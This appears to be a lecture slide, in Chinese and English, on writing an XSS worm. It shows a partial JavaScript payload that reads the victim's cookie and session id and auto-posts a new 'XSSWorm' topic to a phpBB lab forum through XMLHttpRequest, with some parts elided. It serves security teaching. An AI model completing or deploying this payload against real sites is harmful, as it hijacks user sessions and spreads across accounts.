

# XSS跨站脚本攻击实例 －编写XSS蠕虫
<script>
var  Ajax=null;
//  Construct  the  header  information  for  the  Http  request
Ajax=new  XMLHttpRequest();
Ajax.open("POST","http://www.xsslabphpbb.com/posting.php",true);
……
Ajax.setRequestHeader(“Cookie”,document.cookie);
//get sid from the cookie
str_sid = ......;
//Construct the content. The format of the content can be learned from LiveHttpHeader. All we need to fill is subject, message, and sid, for a true XSS worm, we need intgrate the Javascript codes into message.
var content="subject="  +  "XSSWorm"  + ”……&message=Hello&topictype=0&poll_title=&add_poll_option_text=&poll_length=&mode=newtopic&sid="+str_sid+"&f=1&post=Submit";
//Send the HTTP POST request.
Ajax.send(content);
</script>
2022年10月24日
30